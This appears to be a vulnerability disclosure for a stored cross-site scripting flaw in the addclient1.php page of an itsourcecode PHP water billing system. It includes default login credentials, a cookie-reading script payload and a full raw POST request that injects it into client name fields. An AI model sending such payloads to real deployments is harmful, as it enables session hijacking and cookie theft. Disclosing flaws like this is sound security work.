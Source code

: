 # WaterBilling-System v1.0 by itsourcecode.com has Cross-site Scripting (XSS)

Vul_Author: Kai Wang

Login Account:jude
Password:123

vendors: https://itsourcecode.com/free-projects/php-project/billing-system-in-php-with-source-code/

Vulnerability File: /billing/addclient1.php HTTP/1.1

Vulnerability location: /billing/addclient1.php HTTP/1.1

[+] Payload: <script>alert(document.cookie)</script>

Tested on Windows 10, phpStudy

There is an example with alert:
```
POST /billing/addclient1.php HTTP/1.1
Host: 10.12.180.79
Content-Length: 178
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.12.180.79
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.41
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.12.180.79/billing/clients.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=d4me9tekbcuef2k8k1qupv9i0t
Connection: close

lname=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&fname=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&mi=M&address=address&contact=test&meterReader=test&add=ADD
```

When you enter the system,click "add client"

![image](https://user-images.githubusercontent.com/56795018/221333339-79de63bb-6abf-4eed-ba3a-3a1aadddcd39.png)

input a XSS script in the lastname input boxes,such as "<script>alert(document.cookie)</script>",it will expose cookie.

![image](https://user-images.githubusercontent.com/56795018/221333584-a8c81a1c-9392-4a6e-b454-1ff1298398c0.png)

click add,and you will obtain its cookie.

![image](https://user-images.githubusercontent.com/56795018/221333611-c7525da2-2448-4d29-8c3e-cf4850c477ab.png)
